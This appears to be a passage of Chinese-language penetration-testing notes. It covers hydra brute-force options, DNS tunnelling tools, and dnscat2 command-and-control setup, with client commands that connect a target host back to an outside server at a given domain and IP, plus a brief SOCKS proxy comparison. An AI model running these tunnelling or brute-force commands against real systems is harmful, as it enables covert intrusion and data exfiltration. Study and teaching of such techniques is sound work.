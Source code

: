
常见参数说明：做了解 -R 根据上一次进度继续破解 -p指定密码破解 -S 使用ssl协议连接 -P 指定密码字典（文件） -s 指定端口 -t 指定多线程数量 -l 指定用户名 -vV 显示详细过程 -L 指定用户名字典

## dns
DNS隧道优点：
肯定有dns服务 
Dns报文可穿透防火墙 
激增的dns流量可能被发现


Dns2tcp：支持直连模式的DNS隧道，只实现了简单的DNS隧道，，相关命令和控 制服务需要自行搭建，且已在kali系统中直接集成。 Dnscat2：封装在DNS协议中的加密C&C信道，直接运行工具即可实现数据传输、 文件操作等命令和控制功能。 Iodine：最活跃、速度最快、支持直连和中继模式，且支持丰富的编码】请求类型 选择。


Dnscat2是一款开源软件，它使用DNS协议创建加密的C&C通道，通过预共享密匙 进行身份验证；使用shell及DNS查询类型，多个同时进行的会话类似于SSH中的隧 道。Dnscat2的客户端是用c语言编写的，服务端是用ruby语言写的，严格地说， dnscat2是一个命令与控制工具。 C&C通信是指植入C&C客户端的木马或者后门程 序与C&C服务端上的远程控制程序之间的通信。
Dnscat2有两种模式： **直连模式**：客户端直接向指定ip地址的dns服务器发起dns解析请求。 
									**中继模式**：dns经过互联网的迭代解析，指向指定的dns服务器。速度比直连模式慢

Dnscat2有以下特点： 
• 支持多个会话 
• 流量加密
• 使用密匙防止mita攻击
• 在内存中直接执行powershell脚本
• 隐蔽通信

dnscat2


### 1. 命令
连接通道后，使用help同样可以看到其内支持的命令（单个命令后跟-h也会解释该 命令）： clear（清屏） delay（修改远程会话超时时间） exec（执行远程机上的程序） shell（得到一个反弹shell） download/upload（两端之间上传下载文件） supend（返回到上一层，等于快捷键ctrl+z）
### 2. 安装dnscat2 服务端
2，安装dnscat2服务端 环境：apt-get install gem apt-get install ruby-dev apt-get install libpq-dev apt-get install ruby-bundler Apt-get install git Git clone https://github.com/iagox86/dnscat2.git Bundle install ruby ./dnscat2.rb vpn.likb.xyz –e open –c passwd –no-cache 直连：ruby ./dnscat2.rb --dns server=47.106.158.168,port=53 --secret=passwd
### 3. 目标主机安装客户端
安装dnscat2客户端 Linux：git clone https://github.com.iagox86/dnscat2.git Make Windows:https://downloads.skullsecurity.org/dnscat2/ 测试是否能通信 Dnscat2.exe –ping vpn.likb.xyz 连接服务器: Dnscat2.exe --dns domain=vpn.likb.xyz –-secret 123 服务使用直连：./dnscat --dns host=47.106.158.168,port=5353 --secret=123 成功则返回：Session established 客户端： ./dnscat --secret=123 vpn.likb.xyz
#### 4. 反弹shell

# SOCKS代理 

socks代理和端口转发的异同点： 
1，socket端口转发无需通讯协议支持，而socks代理需要socks协议支持
2，socket端口工作方式不一样 
3，socks代理一对多，端口转发一对一
